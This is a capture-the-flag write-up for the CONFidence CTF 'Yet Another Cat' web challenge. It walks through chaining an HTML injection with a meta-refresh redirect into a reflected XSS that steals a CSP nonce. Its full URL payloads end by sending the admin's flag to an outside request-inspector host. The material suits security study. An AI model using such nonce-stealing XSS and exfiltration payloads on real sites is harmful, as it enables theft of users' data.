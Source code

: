 ```yaml
---
layout: post
title: "CONFidenceCTF Yet Another Cat solution"
date: 2020-09-06
---
```


The challenge' info card gives us a link to the website.

#### Info card:

![infocard](/assets/posts/Confidence-yac/images/p1.PNG)


#### Main page:


![mainpage](/assets/posts/Confidence-yac/images/p2.PNG)


We can create a note and report it to the admin.
There is a pseudo flag on our main page which is taken from `/flag?var=flag`.

#### /flag?var=flag :


![flagoutput](/assets/posts/Confidence-yac/images/p3.PNG)


`/flag?var=flag` is returns a valid javascript line so we shouldn't use XHR (we also can't use XHR because of the CSP).
We can just use the `/flag?var=flag` as a script source and access the flag through `window.flag`.
The technique uses in `/flag` is simillar to JSONP, you can read about it here: [jsonp](https://www.w3schools.com/js/js_json_jsonp.asp).

Let's take a look at the CSP on this website :

#### CSP:


![CSP](/assets/posts/Confidence-yac/images/p4.PNG)


Due to the Content-Security-Policy header, only script tag with valid nonce or script from https://ww.google.com/recaptcha and https://www.gstatic.com/recaptcha/ will be loaded.

For achieving XSS we should inject our script to an existing script tag or find a way to steal the nonce value.

#### Note creation screen:


![notecreate](/assets/posts/Confidence-yac/images/p5.PNG)


The content of the note is well escaped with HTML entities encoding so we can't inject HTML.

After creating a note there is a theme choosing functionality.
The theme name reflects within a script tag, so we can inject arbitrary javascript to this tag: 

#### The theme name within the source code:


![themeFirst](/assets/posts/Confidence-yac/images/p6.PNG)


#### Javascript injection after the theme:


![themeinjection](/assets/posts/Confidence-yac/images/p7.PNG)


We can't just fetch the flag because of the Content-Security-Policy (`default-src 'none'`) so we should use our XSS to steal the nonce value, create a script tag with the stolen nonce which its source is `/flag?var=flag`.
After creating this script tag, window.flag will contain the value of the flag.
I couldn't use any quotation marks because they were encoded as HTML entities so I used the location.hash for creating some strings.
We can steal the nonce value with :

`document.scripts[0].nonce`

Here is my payload to write into the DOM two script tags, one for creating the `window.flag` variable and the second for alerting its value, both contain the stolen `nonce` attribute:


`http://yacc.zajebistyc.tf/note/a6f7a8f5-f0b4-4fac-85cc-c02d5a41c93e?theme=blackTheme;document.write(decodeURIComponent(location.hash.slice(1,19)%2bdocument
.scripts[0].nonce%2blocation.hash.slice(25,87)%2blocation.hash.slice(1,19)%2bdocument
.scripts[0].nonce%2blocation.hash.slice(87)));//#%3Cscript%20nonce=script%20src=http://yacc.zajebistyc.tf/flag?var=flag%3E%3C/script%3E%3Ealert(window.flag)%3C/script%3E`


#### Result:


![alertFlag](/assets/posts/Confidence-yac/images/p8.PNG)


#### DOM after the XSS:


![domafterXSS](/assets/posts/Confidence-yac/images/p9.PNG)


Instead of making an alert with the flag value, we can redirect the victim to our `requestinspector` URL with the following javascript code:

`location = "https://requestinspector.com/inspect/<your requestinspectorID>?flag="+window.flag;`

The reporting functionality doesn't allow us to add the query parameter `theme`, so to achieve the XSS attack, we should find a way to redirect the admin to another note, with the theme parameter containing our payload.

The note creation functionality allows us to pick a cat picture URL which is reflected in a script tag and stored on the page. 

#### Note creation request:


![note_req](/assets/posts/Confidence-yac/images/p10.PNG)


#### Cat image path reflection:


![catPath](/assets/posts/Confidence-yac/images/p11.PNG)


If we will set the cat_url to `</script>`, the browser will treat it as the end of the current script tag because the triangular brackets aren't escaped.
After closing the script tag we can inject an arbitrary HTML tag.

#### HTML injection request :


![htmlinjection_req](/assets/posts/Confidence-yac/images/p12.PNG)


#### HTML injection result:


![htmlinjection_result](/assets/posts/Confidence-yac/images/p13.PNG)



We can't inject script tags because the CSP nonce, but we can inject a meta tag which will redirect to our reflected XSS page with the `theme` parameter.

The meta tag for making redirection is :

`<meta http-equiv="Refresh" content="0;url='<url here>'"/>`


#### Last payload :


```
cat_url=</script><meta http-equiv="Refresh" content="0; url='http%3A%2F%2Fyacc.zajebistyc.tf%2Fnote%2Fa8286105-8bf3-4de8-bc65-f195a9d11aaf%3Ftheme%3DblackTheme%3Bdocument.write(decodeURIComponent(location.hash.slice(1%2C19)%252bdocument.scripts%5B0%5D
.nonce%252blocation.hash.slice(25%2C87)%252blocation.hash.slice(1%2C19)%252bdocument.scripts%5B0%5D.nonce%252blocation.hash.slice(87)))
%3B%2F%2F%23%253Cscript%2520nonce%3Dscript%2520src%3Dhttp%3A%2F%2Fyacc.zajebistyc.tf%2Fflag%3Fvar%3Dflag%253E%253C%2Fscript%253E%253Elocation
.href%3D'https%3A%2F%2Frequestinspector.com%2Finspect%2F01ehfz06c7pt6dbcwcy51n7trb%3Fflag%3D'%252bencodeURIComponent(window.flag)%3B%253C%2Fscript%253E'" />
```


#### Request:


![lastpayload](/assets/posts/Confidence-yac/images/p14.PNG)


Sharing the new note will cause the admin to send us the flag:

#### Share:


![share](/assets/posts/Confidence-yac/images/p15.PNG)


#### Flag:


![flag](/assets/posts/Confidence-yac/images/p16.PNG)

